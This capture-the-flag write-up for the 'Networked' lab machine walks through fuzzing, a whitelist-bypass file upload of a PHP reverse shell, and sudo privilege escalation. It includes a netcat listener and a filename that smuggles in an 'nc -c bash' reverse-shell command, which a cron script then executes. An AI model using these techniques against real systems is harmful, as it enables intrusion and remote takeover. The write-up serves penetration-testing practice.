

# Networked

## Network Enumeration

we first scan the machine for open ports we notice a web server on port 80 


## Web Fuzzing

we search for subdonmain using ffuf we find a directory called backup , download the backup.tar folder we find the src code for the web application, on the upload.php we find a vector for an arbitrary file upload attack


we then navigate to the upload directory intercept an upload request using Burpsuite and modify it to to pass the whitelisting check , and to upload the reverse shell file [reverseShell](https://github.com/pentestmonkey/php-reverse-shell)


run netcat on the attacker machine 
```
nc -lvnp 4444
```
when we request the reverse shell we uploaded we will receive our connection .
## Lateral movement

the user we have rce as doesn't have the permission to view user.txt

checking the file named crontab.guly we find that check_attack.php is run every 3 mins and when checking the file one line stands out 

the program runs every 3 mins checks for malicious programs and deletes them , however , it run the command without checking for malicious input , we can exploit this by running the following 
```
nc -lvnp 4444 # on attacker machine

cd /var/www/html/uploads
touch -- '; nc -c bash <ip> <port>;.php'
```

we shortly get a shell as guly and we can find the user flag in the home directory 

---
## Privilege Escalation

#### misconfigured sudo 

checking for sudo cabipalities for thus user we found the following

we view the file , we have no writing rights and it belongs to root 

the program takes what input we add and inputs it into a file then adds EOF after we finish, after a google search i found the following [exploit](https://seclists.org/fulldisclosure/) so to exploit we simply have to add a space then bash

then the program it is written to we get a shell as root where we found the root flag
